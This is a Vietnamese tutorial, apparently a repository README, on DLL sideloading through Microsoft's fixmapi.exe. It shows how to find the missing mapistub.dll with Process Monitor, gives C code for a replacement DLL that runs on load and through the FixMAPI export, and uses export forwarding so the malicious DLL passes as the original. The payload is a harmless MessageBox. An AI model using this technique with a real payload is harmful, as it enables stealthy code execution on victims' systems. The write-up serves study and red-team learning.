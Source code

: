 ## DLL Sideloading

DLL Sideloading là 1 kĩ thuật tận dụng lỗ hổng bảo mật ứng dụng trong thứ tự load DLL. Hiểu một cách đơn giản, đáng ra ứng dụng sẽ kiểm tra dll cần thiết ở các vị trí quan trọng hơn trước (ex. `C:\Windows\System32\`), nhưng thay vào đó lại kiểm tra thư mục hiện tại chứa ứng dụng trước, điều này cho phép tạo 1 phiên bản DLL độc hại và đặt nó vào trong thư mục hiện tại, giúp cho DLL sẽ được tải và thực thi.

### Tìm kiếm DLL Sideloading fixmapi.exe 

`fixmapi.exe` là công cụ chuẩn đoán của Microsoft cung cấp để khắc phục sự cố liên quan đến Giao diện lập trình ứng dụng nhắn tin (MAPI), có thể tìm kiếm công cụ này tại `C:\Windows\System32\`. Sử dụng `Process Monitor` để tìm kiếm DLL Sideloading trong ứng dụng này. Setup filter của ứng dụng như dưới:

![processname](images/processname.png)

Sau khi áp dụng bộ lọc, thực hiện chạy ứng dụng, xem kết quả:

![proc1](images/proc1.png)

Trong trường hợp có lỗ hổng DLL Sideloading, ứng dụng sẽ không tìm thấy DLL và kết quả sẽ là `NAME NOT FOUND`, vì vậy chỉ cần áp dụng thêm 1 bộ lọc cho `Result` như ở dưới:

![namenotfound](images/namenotfound.png)

Sau khi áp dụng, ta được kết quả là những file không tìm thấy như sau:

![proc2](images/proc2.png)

Có thể thấy ứng dụng đã tìm kiếm `mapistub.dll` tại vị trí `C:\User\vuong\Desktop\Test Sideloading\` nhưng không tìm thấy => `fixmapi.exe` chứa Sideloading với `mapistub.dll`.

### Tạo DLL khai thác Sideloading

Tạo mã `MessageBox` đơn giản khi DLL được load đơn giản:

```c
#include <iostream>
#include <thread>


BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "Hello", "Hello", MB_OK);
        break;
    case DLL_THREAD_ATTACH:
        
        break;
    case DLL_THREAD_DETACH:
        
        break;
    case DLL_PROCESS_DETACH:
        
        break;
    }
    return TRUE;
}
```

Đổi tên dll thành `mapistub.dll` và đặt vào cùng thư mục với `fixmapi.exe`, chạy file và nhận được kết quả:

![result1](images/result1.png)

Và kèm theo 1 lỗi:

![error1](images/error1.png)

Debug với x64dbg và tìm kiếm vị trí load DLL, ta nhận thấy nó đang tìm kiếm hàm export của DLL là `FixMAPI`, vì lý do không tìm thấy nên gây là lỗi, sử đổi mã để fix lỗi trên:

```c
extern "C" __declspec(dllexport) void FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);
}
```

Thay vì thêm mã vào phần `DLL_PROCESS_ATTACH`, nên xây dựng hàm export. Điều này có thể tránh 1 số lỗi, nổi bật là lỗi liên quan đến thư viện phụ thuộc, trong trường hợp các thư viện load sau đó cần tới thư viện DLL ban đầu, tuy nhiên DLL đầu của chúng ta đang phải thực thi hàm trong `DLL_PROCESS_ATTACH`, dẫn tới việc nó load chưa xong và gây ra lỗi.

### DLL Proxying

Để tăng tính chân thực cho việc Sideloading, điều quan trọng là cần đảm bảo exe thực thi đúng những gì đáng ra nó cần làm, vì vậy cần đảm bảo DLL mang những chức năng thực sự của nó. Có 1 video đã nói đến việc này, sử dụng 1 vài tool hiệu quả để tạo ra 1 DLL vừa chứa mã độc hại vừa chứa chức năng như DLL ban đầu: https://www.youtube.com/watch?v=P7lLDM6cHpc

Ở dưới sẽ nói về cách custom code để làm được việc này.

Đối với 1 số hàm export được sử dụng, ta có thể sử dụng proxying bằng cách đổi tên DLL gốc thành 1 tên khác, đặt cùng với thư mục với dll sideloading, sau đó trong dll sideloading, thực hiện 1 số dòng code có format như sau. (Giả sử dll gốc được đổi tên thành tempdll.dll).

```c
#pragma comment(linker,"/export:FixMAPI=tempdll.FixMAPI,@14")
```

Trong đó `@14` là ordinal của export function, có thể tìm kiếm giá trị này bằng các công cụ xem PE format như CFF explore.

Đối với hàm sẽ đặt code sideloading, cần sử đổi 1 chút để nó có thể vừa thực thi mã độc hại, vừa hỏi đến hàm cần thiết.

```c
extern "C" __declspec(dllexport) PVOID FixMAPI() {
    MessageBoxA(NULL, "FIXMAPI", "FIXMAPI", MB_OK);

    HMODULE hModule = LoadLibraryA("tempdll.dll");

    if (!hModule) {
        return nullptr;
    }

    fnFixMAPI pFixMAPI = (fnFixMAPI)GetProcAddress(hModule, "FixMAPI");
    if (!pFixMAPI) {
		return nullptr;
	}

    return pFixMAPI();
}
```